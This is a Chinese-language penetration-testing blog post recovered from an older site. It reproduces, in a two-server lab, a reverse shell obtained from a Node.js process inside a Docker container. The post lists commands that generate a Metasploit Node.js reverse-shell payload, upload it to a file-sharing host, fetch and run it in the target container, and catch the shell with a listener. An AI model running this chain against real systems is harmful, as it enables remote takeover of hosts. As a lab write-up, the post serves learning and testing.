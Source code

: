 ```
标题: Docker Node.js Reverse Shell
创建: 2021-01-14
更新: 2024-02-03
```

> 从 CN-SEC 找回的旧文

---

### 前言

这篇文章是我遇到的1种新环境(云上)的渗透，后来听团队大佬大概讲了一下操作(node.js 反弹shell)，作为菜鸡的我一向很自觉，学技术自然得"趁热打铁",于是下班回来把环境大概模拟出来，复现了一波。

注：实际情况是shell在容器内可以用node.js反弹出shell,但是很不稳定，大概20s左右就掉了。


### 环境搭建

step 1
- 准备两台服务器

step 2:
- 1台安装docker,dokcer安装node.js

step 3:
- 1台安装msf

![](./img/1706968410585.png)


### 复现

#### 姿势1 lambda Node.js 反弹shell

编辑shell.js

![](./img/1706968456421.png)

编辑完保存为shell.js, 然后直接在目标机器上执行即可

![](./img/1706968481431.png)

如图所示，成功反弹shell。



#### 姿势2 msf+node.js 反弹shell

安装msf

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

注：踩坑如下：
![](./img/1706968530000.png)

解决方式：
```shell
sudo vi etc/hosts

# 在hosts中添加

199.232.28.133raw.githubusercontent.com

# 即可
```

msf安装成功：

![](./img/1706968562023.png)

msf 生成payload (node.js)

```shell
msfvenom -p nodejs/shell_reverse_tcp LHOST=1.1.1.1 LPORT=8889 -f raw > msf_shell.js
```

![](./img/1706968578268.png)

上传到 bashupload

```shell
curl https://bashupload.com/msf_shell.js --data-binary @msf_shell.js
```

![](./img/1706968608898.png)

然后直接在目标容器下载该payload并执行：

```shell
wget https://bashupload.com/56yrL/msf_shell.js
```

![](./img/1706968629770.png)

```shell
node msf_shell.js
```

![](./img/1706968645390.png)

在vps上设置msf监听

```shell
use exploit/multi/handler
set payload nodejs/shell_reverse_tcp
set lhost 1.1.1.1
set lport 8889
exploit
```

![](./img/1706968675909.png)

如图，成功反弹shell。

---

参考：

https://tonghuaroot.com/











